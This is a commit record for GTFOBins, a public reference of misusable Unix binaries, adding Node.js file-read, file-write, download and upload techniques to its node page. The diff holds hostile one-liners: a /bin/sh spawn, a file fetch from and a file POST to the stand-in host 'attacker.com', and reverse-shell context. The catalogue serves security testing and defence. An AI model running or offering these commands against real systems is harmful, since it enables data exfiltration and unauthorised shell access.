

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide and 1400 px high, scrolled down 691 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1715 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add Node.js file-{read,write,upload,download}
Close #172.

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -3,6 +3,22 @@ functions:
   shell:
     - code: |
         node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
+  file-write:
+    - code: node -e 'fs.writeFileSync("file_to_write", "DATA")'
+  file-read:
+    - code: node -e 'process.stdout.write(fs.readFileSync("/bin/ls"))'
+  file-download:
+    - description: Fetch a remote file via HTTP GET request.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=file_to_save
+        node -e 'http.get(process.env.URL, res => res.pipe(fs.createWriteStream(process.env.LFILE)))'
+  file-upload:
+    - description: Send a local file via HTTP POST request.
+      code: |
+        export URL=http://attacker.com
+        export LFILE=file_to_send
+        node -e 'fs.createReadStream(process.env.LFILE).pipe(http.request(process.env.URL))'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
```
